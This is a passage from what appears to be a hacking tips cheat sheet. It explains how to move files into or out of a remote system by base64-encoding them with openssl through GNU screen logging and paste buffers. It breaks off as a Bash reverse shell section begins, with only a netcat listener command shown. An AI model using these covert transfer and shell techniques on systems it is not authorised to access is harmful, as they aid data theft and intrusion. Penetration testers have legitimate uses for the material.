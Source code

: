 Have a *screen* running on your local computer and log into the remote system from within your shell. Instruct your local screen to log all output:

> CTRL-a : logfile screen-xfer.txt

> CTRL-a H

We use *openssl* to encode our data but any of the above encoding methods works. This command will display the base64 encoded data in the terminal and *screen* will write this data to *screen-xfer.txt*:

```
$ openssl base64 </etc/issue.net
```

Stop your local screen from logging any further data:

> CTRL-a H 

On your local computer and from a different shell decode the file:
```
$ openssl base64 -d <screen-xfer.txt
$ rm -rf screen-xfer.txt
```

<a id="ftslr-anchor"></a>
**4.vi. File transfer - using *screen* from LOCAL to REMOTE**

On your local system (from within a different shell) encode the data:
```
$ openssl base64 </etc/issue.net >screen-xfer.txt
```

On the remote system (and from within the current *screen*):
```
$ openssl base64 -d
```

Get *screen* to slurp the base64 encoded data into screen's clipboard and paste the data from the clipboard to the remote system:

> CTRL-a : readbuf screen-xfer.txt

> CTRL-a : paste .

> CTRL-d

> CTRL-d

Note: Two C-d are required due to a [bug in openssl](https://github.com/openssl/openssl/issues/9355).

---
<a id="rs-anchor"></a>
<a id="rswb-anchor"></a>
**5.i.a. Reverse shell with Bash**

Start netcat to listen on port 1524 on your system:
```
$ nc -nvlp 1524
```
